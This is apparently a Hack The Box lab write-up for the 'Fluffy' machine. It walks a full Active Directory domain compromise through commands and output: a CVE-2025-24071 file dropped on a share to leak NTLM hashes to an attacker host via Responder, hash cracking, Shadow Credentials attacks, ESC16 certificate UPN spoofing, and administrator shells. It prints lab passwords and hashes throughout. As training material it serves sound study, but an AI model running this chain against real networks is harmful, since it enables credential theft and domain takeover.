

# Attack Chain

```
j.fleischman (creds donnés)
└─ SMB IT share WRITE → CVE-2025-24071 (.library-ms)
   └─ Responder NTLMv2 → hashcat → p.agila
      └─ GenericAll "Service Accounts" → self-add
         └─ GenericWrite winrm_svc → Shadow Creds → PKINIT
            └─ WinRM as winrm_svc → user.txt
               └─ GenericWrite ca_svc → Shadow Creds → PKINIT
                  └─ ESC16 fluffy-DC01-CA → UPN spoof ca_svc
                     └─ certipy req → administrator.pfx → PKINIT
                        └─ WinRM Administrator → root.txt
```
# Sommaire

- [Enumération](#enumération)
	- [Nmap](#nmap)
	- [Bloodhound](#bloodhound)
	- [Kerberoast](#kerberoast)
	- [SMB](#smb)
		- [Shares](#shares)
		- [PDF File](#pdf-file)
- [CVE-2025-24071](#cve-2025-24071)
	- [Create the archive file](#create-the-archive-file)
	- [Put the file inside IT Shares](#put-the-file-inside-it-shares)
	- [Catch NetNTLMV2 hash with Responder](#catch-netntlmv2-hash-with-responder)
- [Back to Bloodhound](#back-to-bloodhound)
- [Chaining the misconfigurations](#chaining-the-misconfigurations)
	- [GenericAll on Service Accounts group](#genericall-on-service-accounts-group)
	- [GenericWrite on winrm_svc](#genericwrite-on-winrm_svc)
	- [Shell as winrm_svc](#shell-as-winrm_svc)
- [Privilege Escalation](#privilege-escalation)
	- [Shadow Credentials Attack on ca_svc](#shadow-credentials-attack-on-ca_svc)
	- [Certificate Template](#certificate-enumeration)
		- [Modify UPN of ca_svc](#modify-upn-of-ca_svc)
		- [BONUS Retrieve TGT and hash](#bonus-retrieve-tgt-and-hash)
		- [Request administrator's certificate](#request-administrators-certificate)

---

As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: `j.fleischman` / `J0elTHEM4n1990!`

# Enumération

### Nmap

```
nmap -sVC 10.129.*.* -oN scan.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2026-05-19 11:14 CEST
Nmap scan report for 10.129.*.*
Host is up (0.029s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-19 16:14:42Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-05-19T16:16:05+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after:  2106-04-30T16:09:59
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after:  2106-04-30T16:09:59
|_ssl-date: 2026-05-19T16:16:04+00:00; +7h00m01s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after:  2106-04-30T16:09:59
|_ssl-date: 2026-05-19T16:16:05+00:00; +7h00m01s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-05-19T16:16:04+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
| Not valid before: 2026-04-30T16:09:59
|_Not valid after:  2106-04-30T16:09:59
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-time:
|   date: 2026-05-19T16:15:23
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.86 seconds
```

**FQDN** = DC01.FLUFFY.HTB
**Domain** = FLUFFY.HTB

### Bloodhound

Let's collect data using `bloodhound.py`.

```
bloodhound.py --zip -c All -d "fluffy.htb" -u "j.fleischman" -p 'J0elTHEM4n1990!' -ns "10.129.*.*"
```

Nothing is exploitable yet with our user.

### Kerberoast

We can also try to get hash of Kerberoastable account if the SPN is set.

```
GetUserSPNs.py -dc-ip "10.129.*.*" "fluffy.htb"/"j.fleischman":'J0elTHEM4n1990!'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

ServicePrincipalName    Name       MemberOf                                       PasswordLastSet             LastLogon                   Delegation
----------------------  ---------  ---------------------------------------------  --------------------------  --------------------------  ----------
ADCS/ca.fluffy.htb      ca_svc     CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-04-17 18:07:50.136701  2025-05-22 00:21:15.969274
LDAP/ldap.fluffy.htb    ldap_svc   CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-04-17 18:17:00.599545  <never>   
WINRM/winrm.fluffy.htb  winrm_svc  CN=Service Accounts,CN=Users,DC=fluffy,DC=htb  2025-05-18 02:51:16.786913  2025-05-19 17:13:22.188468
```
Some accounts have SPN set, let's request their TGS and try to crack them offline.

```
GetUserSPNs.py -dc-ip "10.129.*.*" "fluffy.htb"/"j.fleischman":'J0elTHEM4n1990!'  -request -o kerberoast.txt
```

Let's use `hashcat` to crack them
```
hashcat kerberoast.txt /usr/share/wordlist/rockyou.txt
```

Unfortunately, we couldn't crack any hashes.

### SMB

##### Shares
```
nxc smb 10.129.*.* -u "j.fleischman" -p 'J0elTHEM4n1990!' --shares

SMB         10.129.*.*   445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.*.*   445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!

SMB         10.129.*.*   445    DC01             [*] Enumerated shares

SMB  10.129.*.*   445    DC01       Share           Permissions     Remark
SMB  10.129.*.*   445    DC01       -----           -----------     ------
SMB  10.129.*.*   445    DC01       ADMIN$                          Remote Admin
SMB  10.129.*.*   445    DC01    C$                              Default share
SMB  10.129.*.*   445    DC01    IPC$            READ            Remote IPC
SMB  10.129.*.*   445    DC01    IT              READ,WRITE
SMB  10.129.*.*   445    DC01    NETLOGON        READ            Logon server share
SMB  10.129.*.*   445    DC01    SYSVOL          READ            Logon server share
```

IT share looks interesting. We got both READ and WRITE permission.

```
smbclientng -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --host "10.129.*.*"
[\\10.129.*.*\]> USE it
■[\\10.129.*.*\IT\]> ls
d-------     0.00 B  2026-05-19 19:02  .\
d-------     0.00 B  2026-05-19 19:02  ..\
d-------     0.00 B  2026-05-19 19:02  Everything-1.4.1.1026.x64\
-a------    1.74 MB  2025-05-21 17:12  Everything-1.4.1.1026.x64.zip
d-------     0.00 B  2025-05-21 17:12  KeePass-2.58\
-a------    3.08 MB  2025-05-21 17:12  KeePass-2.58.zip
-a------  165.98 kB  2025-05-17 16:31  Upgrade_Notice.pdf
```

Let's download everything

```
[\\10.129.*.*\IT\Everything-1.4.1.1026.x64\]> get * -r
```

##### PDF File

There is a PDF file called `Upgrade_Notice.pdf`, let's see what it contains.



It's a file mentioning current vulnerabilities that the server is facing. 
We notice that the target is vulnerable to various CVE, including criticals one.

After a quick look, **CVE-2025-24996** might not be applicable to our situation but **CVE-2025-24071** looks promising.

# CVE-2025-24071

This CVE is an NTLM hash disclosure vulnerability in Windows File Explorer. It abuses Explorer's implicit trust in the `.library-ms` XML format. 

When a crafted `.library-ms` file containing a UNC path is extracted from an archive, Explorer automatically parses it to generate thumbnails and index metadata. 

This triggers an SMB authentication handshake to the attacker-controlled server, leaking the victim's NetNTLMv2 hash with no user interaction beyond extraction. The hash can then be cracked offline or relayed via `ntlmrelayx` if SMB signing isn't enforced.

### Create the archive file

To exploit the CVE, we will use [this](https://github.com/Marcejr117/CVE-2025-24071_PoC) POC.

```
git clone https://github.com/Marcejr117/CVE-2025-24071_PoC
cd CVE-2025-24071_PoC
```

```
python3 PoC.py hacked <attacker_ip>

[+] File hacked.library-ms created successfully.
```

### Put the file inside IT Shares

Since we have WRITE on the share IT, we can put our malicious file inside the share, and wait for someone to extract it.

```
[\\10.129.*.*\]> use IT
[\\10.129.*.*\IT\]> put exploit.zip
```

### Catch NetNTLMV2 hash with Responder

Now we start `Responder`, and wait for a callback.

```
responder -I tun0

<SNIP>

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.*.*
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:1122334455667788:C4442970D530F00D7528488229646AD3:0101000000000000806C2D4788E7DC01CDB75A3CDDC2D68300000000020008005200330041004C0001001E00570049004E002D005200530053005700520046005A00440044004100390004003400570049004E002D005200530053005700520046005A0044004400410039002E005200330041004C002E004C004F00430041004C00030014005200330041004C002E004C004F00430041004C00050014005200330041004C002E004C004F00430041004C0007000800806C2D4788E7DC0106000400020000000800300030000000000000000100000000200000BE74D109D56C5233BEC6226A92E956C0D8A3731AC88B7F7A4EEB7C8EFFC32F8D0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00390037000000000000000000
```

We successfully retrieved the NetNTLMv2 of the user `p.agila`. We can now use `hashcat` to crack it.

```
echo '<hash>' > hash.txt
```

```
hashcat hash.txt /usr/share/wordlist/rockyou.txt

<SNIP>

P.AGILA::FLUFFY:1122334455667788:459487dd55f79e8cab48255e8b0741d6:0101000000000000806c2d4788e7dc0199c8665d6b3c454700000000020008005200330041004c0001001e00570049004e002d005200530053005700520046005a00440044004100390004003400570049004e002d005200530053005700520046005a0044004400410039002e005200330041004c002e004c004f00430041004c00030014005200330041004c002e004c004f00430041004c00050014005200330041004c002e004c004f00430041004c0007000800806c2d4788e7dc0106000400020000000800300030000000000000000100000000200000be74d109d56c5233bec6226a92e956c0d8a3731ac88b7f7a4eeb7c8effc32f8d0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00390037000000000000000000:prometheusx-303
```
We got the credentials `p.agila`:`prometheusx-303`.

```
nxc smb 10.129.*.* -u "p.agila" -p 'prometheusx-303'

SMB  10.129.*.*   445    DC01   [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB  10.129.*.*   445    DC01   [+] fluffy.htb\p.agila:prometheusx-303
```

# Back to Bloodhound

Let's get back to `bloodhound` to see what ACLs has this user.


From the graph, we have a way to gain a shell on the target.
`p.agila` is a member of `Service Account Managers`, a group that holds `GenericAll` over `Service Accounts`. Which means that we can add our new user to that group in order to obtain `GenericWrite` on the service account `winrm_svc`.

# Chaining the misconfigurations

### GenericAll on Service Accounts group

Let's add `p.agila` to the group `Service Accounts`.

```
bloodyAD --host "10.129.*.*" -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" add groupMember "Service Accounts" p.agila

[+] p.agila added to Service Accounts
```
### GenericWrite on winrm_svc

Since we know from our attempt to Kerberoast user that we can't crack `winrm_svc`hash, we will perform a Shadow Credentials attack using `pywhisker.py`.

This attack exploit the attribute `msDS-KeyCredentialLink`. Since we have `GenericWrite`, we can inject our public key inside and retrieve the private key, allowing us to use PKINIT to authenticate on the target and retrieve the TGT.

```
pywhisker -v -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" -t 'winrm_svc' -a 'add'                                                 

[*] Searching for the target account
[*] Target user found: CN=winrm service,CN=Users,DC=fluffy,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: cbc1dd82-f51d-975c-ca7b-a12752978da1
[*] Updating the msDS-KeyCredentialLink attribute of winrm_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[VERBOSE] No filename was provided. The certificate(s) will be stored with the filename: ksk9kzvL
[VERBOSE] No pass was provided. The certificate will be stored with the password: Y7Dstv0U57ih9gyK6SHe
[*] Converting PEM -> PFX with cryptography: ksk9kzvL.pfx
/root/.local/share/pipx/venvs/pywhisker/lib/python3.11/site-packages/pywhisker/pywhisker.py:54: CryptographyDeprecationWarning: Parsed a serial number which wasn't positive (i.e., it was negative or zero), which is disallowed by RFC 5280. Loading this certificate will cause an exception in a future release of cryptography.
  cert_obj = x509.load_pem_x509_certificate(pem_cert_data, default_backend())
[+] PFX exportiert nach: ksk9kzvL.pfx
[i] Passwort für PFX: Y7Dstv0U57ih9gyK6SHe
[+] Saved PFX (#PKCS12) certificate & key at path: ksk9kzvL.pfx
[*] Must be used with password: Y7Dstv0U57ih9gyK6SHe
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
[VERBOSE] Run the following command to obtain a TGT
[VERBOSE] python3 PKINITtools/gettgtpkinit.py -cert-pfx ksk9kzvL.pfx -pfx-pass Y7Dstv0U57ih9gyK6SHe fluffy.htb/winrm_svc ksk9kzvL.ccache
```

Now that have a certificate, we can get a TGT for `winrm_svc` using the tool `gettgtpkinit.py`.

```
gettgtpkinit.py -cert-pfx ksk9kzvL.pfx -pfx-pass 'Y7Dstv0U57ih9gyK6SHe' "fluffy.htb"/'winrm_svc' winrm_svc.ccache
2026-05-19 19:53:12,291 minikerberos INFO     Loading certificate and key from file
2026-05-19 19:53:12,304 minikerberos INFO     Requesting TGT
2026-05-19 19:53:26,569 minikerberos INFO     AS-REP encryption key (you might need this later):
2026-05-19 19:53:26,569 minikerberos INFO     cc6d6b90d1a86c9b591bd208884041f5c2fac52fb997cde54fa8b593129fe51e
2026-05-19 19:53:26,575 minikerberos INFO     Saved TGT to file
```

We successfully got a TGT. If we want to go deeper we can even retrieve its NTLM hash with the key displayed in the output of the command above.

```
export KRB5CCNAME=winrm_svc.ccache
```
```
getnthash.py -key 'cc6d6b90d1a86c9b591bd208884041f5c2fac52fb997cde54fa8b593129fe51e' fluffy.htb/winrm_svc -dc-ip 10.129.*.*
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
33bd09dcd697600edf6b3a7af4875767
```

`winrm_svc`:`33bd09dcd697600edf6b3a7af4875767`

### Shell as winrm_svc

```
evil-winrm -i 10.129.*.* -u 'winrm_svc' -H '33bd09dcd697600edf6b3a7af4875767'

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents>
```

# Privilege Escalation


We know from `bloodhound` that members of the group `Service Accounts` have `GenericWrite` on every member inside that group.
`ca_svc` looks promising since it's the one that deliver certificate. Let's compromise this account using the same previous technique.

### Shadow Credentials Attack on ca_svc

Let's use `pywhisker` to authenticate with PKINIT.
```
pywhisker -v -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" -t 'ca_svc' -a 'add'
[*] Searching for the target account
[*] Target user found: CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: a2e5b11f-fc15-83c3-5421-a5a48519f44e
[*] Updating the msDS-KeyCredentialLink attribute of ca_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[VERBOSE] No filename was provided. The certificate(s) will be stored with the filename: eON5G6jt
[VERBOSE] No pass was provided. The certificate will be stored with the password: FNu9nn134tVRImXWkWdu
[*] Converting PEM -> PFX with cryptography: eON5G6jt.pfx
/root/.local/share/pipx/venvs/pywhisker/lib/python3.11/site-packages/pywhisker/pywhisker.py:54: CryptographyDeprecationWarning: Parsed a serial number which wasn't positive (i.e., it was negative or zero), which is disallowed by RFC 5280. Loading this certificate will cause an exception in a future release of cryptography.
  cert_obj = x509.load_pem_x509_certificate(pem_cert_data, default_backend())
[+] PFX exportiert nach: eON5G6jt.pfx
[i] Passwort für PFX: FNu9nn134tVRImXWkWdu
[+] Saved PFX (#PKCS12) certificate & key at path: eON5G6jt.pfx
[*] Must be used with password: FNu9nn134tVRImXWkWdu
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
[VERBOSE] Run the following command to obtain a TGT
[VERBOSE] python3 PKINITtools/gettgtpkinit.py -cert-pfx eON5G6jt.pfx -pfx-pass FNu9nn134tVRImXWkWdu fluffy.htb/ca_svc eON5G6jt.ccache
```

We got the certificate and its password, we can now request a TGT, and the NTLM hash of `ca_svc`.

```
gettgtpkinit.py -cert-pfx eON5G6jt.pfx -pfx-pass 'FNu9nn134tVRImXWkWdu' "fluffy.htb"/'ca_svc' ca_svc.ccache
2026-05-19 20:17:00,851 minikerberos INFO     Loading certificate and key from file
2026-05-19 20:17:00,863 minikerberos INFO     Requesting TGT
2026-05-19 20:17:25,923 minikerberos INFO     AS-REP encryption key (you might need this later):
2026-05-19 20:17:25,923 minikerberos INFO     9508e41c1be999cbb8e54e3e6fb95a08018b03df352d61314203aea97ae93ff6
2026-05-19 20:17:25,930 minikerberos INFO     Saved TGT to file
```
```
export KRB5CCNAME=ca_svc.ccache
```
```
getnthash.py -key '9508e41c1be999cbb8e54e3e6fb95a08018b03df352d61314203aea97ae93ff6' fluffy.htb/ca_svc -dc-ip 10.129.*.*
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
ca0f4f9e9eb8a092addf53bb03fc98c8
```
`ca_svc`:`ca0f4f9e9eb8a092addf53bb03fc98c8`

### Certificate Enumeration

We can now enumerate certificates and look for vulnerabilities using `certipy`.
```
certipy find -u ca_svc -hashes "ca0f4f9e9eb8a092addf53bb03fc98c8" -dc-ip 10.129.*.* -target dc01.fluffy.htb -vulnerable -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3150FA7E60CE28AD4DAE41A1B61D8874
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:12:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
                                          FLUFFY.HTB\Administrators
        Read                            : FLUFFY.HTB\Administrators
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```

The CA `fluffy-DC01-CA` is vulnerable to `ESC16`.
It has the OID `1.3.6.1.4.1.311.25.2` (szOID_NTDS_CA_SECURITY_EXT) in its `DisableExtensionList` registry value, so it omits the SID extension from all certificates it issues. Then the KDC falls back to UPN-based identification (legacy pre-CVE-2022-26923 behavior).

Since we control `ca_svc`, we can modify our UPN and ask for a certificate as another user such as `administrator`.

##### Modify UPN of ca_svc

We first need to check what is the current UPN of `ca_svc` in order to revert it to its default in the future.

```
certipy account -u 'ca_svc' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip '10.129.*.*' -user 'ca_svc' read

Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : ca_svc@fluffy.htb
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2026-05-19T19:09:07+00:00

```

Now we can modify our UPN to "administrator".

```
certipy account -u 'ca_svc' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip '10.129.*.*' -upn 'administrator' -user 'ca_svc' update

Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'
```


##### BONUS : Retrieve TGT and hash

If we were targeting an account without having its credentials, we could have use the following command to retrieve a TGT and its NTLM hash.

```
certipy shadow auto -u "ca_svc@fluffy.htb" -hashes "ca0f4f9e9eb8a092addf53bb03fc98c8" -account "ca_svc"

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'd4d901bf3d5146d5b07e52d4b1336472'
[*] Adding Key Credential with device ID 'd4d901bf3d5146d5b07e52d4b1336472' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'd4d901bf3d5146d5b07e52d4b1336472' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
File 'ca_svc.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```

##### Request administrator's certificate

We can impersonate administrator now and request a certificate for the privileged account.

```
certipy req -u ca_svc -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.129.*.* -ca "fluffy-DC01-CA" -target "DC01.fluffy.htb" -template "User"

Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 34
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

Before pursuing, we need to revert `ca_svc`'s UPN to its default. Otherwise the KDC would still resolve the UPN `administrator` to `ca_svc` during PKINIT (since `ca_svc` currently holds that UPN), and authentication would map to the wrong account.

```
certipy account -u 'ca_svc' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip '10.129.*.*' -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update    
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'
```

We can now authenticate with the certificate and get the NTLM hash of administrator.

```
certipy auth -dc-ip 10.129.*.* -pfx administrator.pfx -domain fluffy.htb
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```

```
evil-winrm -i 10.129.*.* -u 'administrator' -H '8da83a3fa618b6e3a00e93f676c92a6e'
```

Machine rooted